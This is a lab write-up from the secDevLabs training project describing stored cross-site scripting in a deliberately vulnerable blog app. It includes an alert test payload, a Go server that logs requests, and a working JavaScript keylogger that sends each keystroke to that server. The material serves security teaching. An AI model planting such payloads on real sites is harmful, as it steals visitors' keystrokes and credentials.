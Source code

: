 # Attack Narrative - Gossip World Blog (XSS)

The main goal of this documentation is to describe how a malicious user could exploit a Cross-Site Scripting vulnerability intentionally installed on Gossip World Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a7/gossip-world) yet, you should check them before reading this narrative.

----

## Note: This attack narrative works best in Mozilla Firefox.

## 👀

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the following text  is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
   <img src="attack-1.png" align="center"/>
   <img src="attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="attack-3.png" align="center"/>
   <img src="attack-4.png" align="center"/>

Adding a new post:
   <img src="attack-5.png" align="center"/>
   <img src="attack-6.png" align="center"/>


The missing input validation allows a malicious user inserts some scripts that will persist in the server and be executed on victims browsers every time they access the routes that contain these scripts.

## 🔥

An attacker may abuse these flaws by generating malicious JS code and sending to other users. To demonstrate this, the following example will show how it is possibile to get all keyboard inputs from an user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```
   
To run this code simply type the following in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang): 

```sh
go run main.go
```

Then, the attacker can insert a new post through **/newgossip** route using the following code in text field:

```html
<script>
var k="";
document.onkeypress=function(e) {
   e = e || window.event;
   k+=e.key;
   var i=new Image;
   i.src="http://localhost:1232/"+k;
}
</script>
```

This code implements a keylogger by capturing all keyboard inputs from users and send them to the API created before.

   <img src="attack-7.png" align="center"/>

When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="attack-8.png" align="center"/>

The attacker now get all thee inputs on the server log, as show bellow: 

<img src="attack-9.png" align="center"/>
